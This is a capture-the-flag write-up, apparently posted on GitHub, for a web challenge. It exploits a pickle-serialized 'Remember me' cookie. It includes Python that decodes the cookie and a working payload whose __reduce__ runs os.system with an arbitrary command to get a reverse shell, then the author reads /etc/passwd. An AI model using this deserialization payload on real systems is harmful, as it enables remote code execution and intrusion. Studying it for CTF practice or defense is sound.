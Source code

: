
Challenge Description:
We have noticed some weird actions on our website , we think that our passwd file has been compromised , can you make sure that it is secure

Step 1:
when you open the chakenge link you will see a login page i try to do a sqli didn't work then 

Step 2:
i open the page sourse i found a username and password 

![image](https://github.com/user-attachments/assets/47456439-1562-4c0a-b120-66badd4f3268)

step 3:
whe i login there is nothing useful i try bunch of thing like dir fuzzing no resalt

step4:
 i notice there is a Remember me button when i cheaked it  there is new cookie apper after same search i found that cookie is a pickle serialization

step 5: 
i try to deserialize i try to decode as base64 but the apper in a unreadable text 
![image](https://github.com/user-attachments/assets/99a6ae69-8641-46b6-ab96-a843d92f77a7)

step 6:
i try use code i found in the internet but the same thing after same deging i found why the apper in unredable text i write this code to deserialize

```
import pickle
import base64

# Define the class `usr` (or import it if it's defined elsewhere)
class usr:
    def __init__(self, username, password):
       pass
    def __repr__(self):
        return f"usr(username='{self.username}', password='{self.password}')"
cookie = "yourcookie"

# Decode the base64 encoded string
decoded_cookie = base64.b64decode(cookie)

# Deserialize using pickle
deserialized_data = pickle.loads(decoded_cookie)

print(deserialized_data)
```
the output of this code be like this ```usr(username='test', password='test')```

step 7:
Then i write code to make my own serializa cookie i write this code 
```
import pickle
import base64
import subprocess
import os

class RCE(object):
    def __reduce__(self):
        cmd = 'Here can put any command you want '
        return os.system, (cmd,)

class usr(object):
    def __init__(self, username, password):
        self.username = username
        self.password = password

if __name__ == '__main__':
    user = usr(username=RCE(), password=RCE())

    pickled = pickle.dumps(user)
    
    encoded = base64.b64encode(pickled)
    print(encoded)
    encoded_urlsafe = base64.urlsafe_b64encode(pickled)
    print(encoded_urlsafe)
```
Then i make a rev shell then after genrate the cookie change it with cookie in the website 
after getting the rev shell i try to search to found the flag but notheing there called flag.txt samething like that after a reread the Description i notice i will found in the /etc/passwd file 

